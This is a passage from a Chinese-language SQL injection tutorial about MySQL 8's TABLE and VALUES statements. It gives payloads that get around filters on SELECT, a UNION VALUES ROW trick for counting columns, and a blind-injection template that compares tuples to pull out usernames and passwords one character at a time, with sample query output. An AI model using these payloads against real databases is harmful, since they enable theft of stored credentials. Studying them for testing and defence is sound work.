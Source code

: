 ```python
table users order by password;
table users limit 1;
table users limit 0,1;
table users limit 1,1;
```

与SELECT的区别：

1.TABLE始终显示表的所有列
2.TABLE不允许对行进行任意过滤，即TABLE 不支持任何WHERE子句

### VALUES()

**作用**：列出一行的值

VALUES是把一组一个或多个行作为表展示出来，返回的也是一个表数据。
ROW()返回的是一个行数据，VALUES将ROW()返回的行数据加上字段整理为一个表，然后展示

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364337084-b5a2f1db-5857-480f-8d1b-5677d2cfc6ea.png#averageHue=%23d1bda3&id=KuRXd&originHeight=313&originWidth=638&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

### 绕过select

```python
1.判断列数
TABLE users union VALUES ROW(1,2,3);
2.使用values判断回显位
select * from users where id=-1 union values row(1,2,3); //这个id的值为不存在，查询不出东西，加上联合查询的话，这里最后出来的数据只有联合查询的
```

### 盲注payload模板

```python
mysql> select ((1,'','')<(table users limit 1));
+-----------------------------------+
| ((1,'','')<(table users limit 1)) |
+-----------------------------------+
|                                 1 |
+-----------------------------------+
```

实质上是(id, username, password)与(1, 'Dumb', 'Dumb')进行比较，比较顺序为自左向右，第一列(也就是第一个元组元素)判断正确再判断第二列(也就是第二个元组元素)。
两个元组第一个字符比大小，如果第一个字符相等就比第二个字符的大小，以此类推，最终结果即为元组的大小。

```python
mysql> select ((2,'','')<(table users limit 1));
+-----------------------------------+
| ((2,'','')<(table users limit 1)) |
+-----------------------------------+
|                                 0 |
+-----------------------------------+
1 row in set (0.00 sec)

mysql> select ((1,'Du','')<(table users limit 1));
+-------------------------------------+
| ((1,'Du','')<(table users limit 1)) |
+-------------------------------------+
|                                   1 |
+-------------------------------------+
```
